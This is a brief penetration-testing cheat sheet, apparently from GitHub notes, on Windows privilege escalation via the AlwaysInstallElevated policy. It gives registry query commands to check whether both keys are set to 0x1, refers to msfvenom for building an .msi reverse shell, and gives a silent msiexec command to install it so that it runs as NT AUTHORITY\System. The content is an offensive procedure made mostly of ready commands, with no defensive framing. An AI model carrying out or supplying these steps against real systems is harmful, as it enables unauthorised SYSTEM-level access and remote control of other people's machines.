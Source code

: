 # check reg

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If they are "0x1" you can install an .msi file as NT AUTHORITY\System

# reverse shell

check msfvenom in general to generate msi reverse shell

# install msi

```cmd
msiexec /quiet /qn /i reverse.msi
```
